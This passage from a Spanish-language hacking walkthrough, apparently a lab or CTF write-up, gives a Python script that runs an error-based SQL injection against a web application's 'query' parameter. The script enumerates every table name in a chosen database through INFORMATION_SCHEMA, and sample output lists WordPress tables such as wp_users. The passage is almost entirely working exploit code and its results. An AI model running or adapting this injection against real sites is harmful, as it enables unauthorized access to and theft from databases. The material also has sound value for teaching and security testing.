 ```py

# Recibimos como argumento la base de datos y la convertimos a hexadecimal
session = requests.Session()
db_name = sys.argv[1]
db_name_hex = db_name.encode('utf-8').hex()

p1 = log.progress("Extrayendo tablas de la base de datos %s" % (db_name))
p2 = log.progress("Payload")

# En el caso de que existan 100 tablas
for table_position in range(0,100):

    # 0x5441424C45 = TABLE
    # 0x%s = El nombre de la base de datos en hexadecimal
    ## Resultado: i.e -> TABLEestaeslatablaTABLE
    payload = "(SELECT 8350 FROM(SELECT COUNT(*),CONCAT(0x5441424C45,(SELECT MID((IFNULL(CAST(table_name AS NCHAR),0x20)),1,50) FROM "
    payload += "INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x%s) LIMIT %d,1),0x5441424C45,FLOOR(RAND(0)*2))x " % (db_name_hex, table_position)
    payload += "FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)nada)"

    data_get = {"query" : "1 or " + payload}
    p2.status(data_get["query"])
    r = session.get(url, params=data_get)

    if "Duplicate" not in r.text:
        break

    p3 = log.progress("Tabla [%d]" % (table_position))

    # Tomamos el resultado y extraermos lo que este entre la E (e final de TABLE) y la T (t inicial de TABLE), esa seria la tabla.
    result += re.findall(r'E(.*?)T', r.text)[0]
    p3.success(result)
    result = ""

p1.success("d0Ne")
p2.success("d0Ne")
print("\nk3Ep br3ak1n6 4anYyyu...\n")
```

Ahora si, probemos con la base de datos **wordpress**:

```bash
❭ python3 ex_tables.py wordpress
[+] Extrayendo tablas de la base de datos wordpress: d0Ne
[+] Payload: d0Ne
[+] Tabla [0]: wp_commentmeta
[+] Tabla [1]: wp_comments
[+] Tabla [2]: wp_links
[+] Tabla [3]: wp_options
[+] Tabla [4]: wp_postmeta
[+] Tabla [5]: wp_posts
[+] Tabla [6]: wp_term_relationships
[+] Tabla [7]: wp_term_taxonomy
[+] Tabla [8]: wp_termmeta
[+] Tabla [9]: wp_terms
[+] Tabla [10]: wp_usermeta
[+] Tabla [11]: wp_users

k3Ep br3ak1n6 4anYyyu...

```
